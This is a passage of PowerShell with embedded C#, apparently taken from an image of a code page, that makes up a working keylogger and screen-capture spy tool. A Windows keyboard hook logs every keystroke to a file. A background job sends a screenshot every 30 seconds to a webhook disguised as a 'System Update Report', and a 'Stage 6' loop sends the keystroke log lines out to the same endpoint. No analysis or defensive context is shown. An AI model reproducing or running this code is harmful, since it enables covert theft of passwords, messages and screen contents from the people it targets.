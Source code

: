 ```
        [DllImport("kernel32.dll")]
        private static extern IntPtr GetModuleHandle(string lpModuleName);
        
        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);
        
        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam) {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN) {
                int vkCode = Marshal.ReadInt32(lParam);
                File.AppendAllText(logPath, ((Keys)vkCode).ToString() + Environment.NewLine);
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }
        
        public static void Main() {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule) {
                _hookID = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, GetModuleHandle(curModule.ModuleName), 0);
            }
            Application.Run();
            UnhookWindowsHookEx(_hookID);
        }
    }
"@
    [Keylogger]::Main()
}

Start-Job -Name "ScreenCapture" -ScriptBlock {
    while ($true) {
        try {
            Add-Type -AssemblyName System.Windows.Forms
            $screen = [System.Windows.Forms.Screen]::PrimaryScreen.Bounds
            $bitmap = New-Object System.Drawing.Bitmap($screen.Width, $screen.Height)
            $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
            $graphics.CopyFromScreen($screen.Location, [System.Drawing.Point]::Empty, $screen.Size)
            $memoryStream = New-Object System.IO.MemoryStream
            $bitmap.Save($memoryStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)
            $bytes = $memoryStream.ToArray()
            $base64 = [Convert]::ToBase64String($bytes)
            
            $payload = @{
                content = "System Update Report"
                embeds = @(@{
                    image = @{
                        url = "data:image/jpeg;base64,$base64"
                    }
                })
            }
            
            Invoke-RestMethod -Uri $using:webhookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType "application/json"
        } catch {}
        Start-Sleep -Seconds 30
    }
}

# Stage 6: Cleanup and Maintenance
while ($true) {
    try {
        Get-Content "$env:temp\systemlog.txt" -ErrorAction SilentlyContinue | ForEach-Object {
            $payload = @{ content = "System Log: $_" }
            Invoke-RestMethod -Uri $webhookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType "application/json"
```